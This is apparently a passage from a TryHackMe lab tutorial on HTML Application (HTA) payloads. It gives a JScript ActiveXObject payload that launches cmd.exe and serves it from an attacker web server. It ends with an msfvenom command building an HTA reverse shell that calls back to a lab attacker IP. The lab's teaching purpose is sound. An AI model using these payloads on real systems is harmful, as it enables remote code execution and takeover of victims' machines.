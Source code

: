 The result will be as exact as executing the vbs files, which run the calc.exe binary.

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/f6d6a5f824fa64750e8b15ce6ba07a7a.png)

# An HTML Application - HTA

HTA stands for “HTML Application.” It allows you to create a downloadable  file that takes all the information regarding how it is displayed and  rendered. HTML Applications, also known as HTAs, which are dynamic HTML pages containing JScript and VBScript. The LOLBINS (Living-of-the-land Binaries) tool mshta is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer. 



In the following example, we will use an [ActiveXObject](https://en.wikipedia.org/wiki/ActiveX) in our payload as proof of concept to execute cmd.exe. Consider the following HTML code.



```javascript
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```



Then serve the payload.hta from a web server, this could be done from the attacking machine as follows,

```shell-session
user@machine$ python3 -m http.server 8090
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/)
```

On the victim machine, visit the malicious link using Microsoft Edge, http://10.8.232.37:8090/payload.hta. Note that the 10.8.232.37 is the AttackBox's IP address.

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/f3a719e8137e6fdca683eefbf373ea4f.png)

Once we press Run, the payload.hta gets executed, and then it will invoke the cmd.exe. The following figure shows that we have successfully executed the cmd.exe.

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/07c5180cd36650478806a1bf3d4595f2.png)![img](



**HTA Reverse Connection**

We can create a reverse shell payload as follows,

```shell-session
user@machine$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of hta-psh file: 7692 bytes
Saved as: thm.hta
```
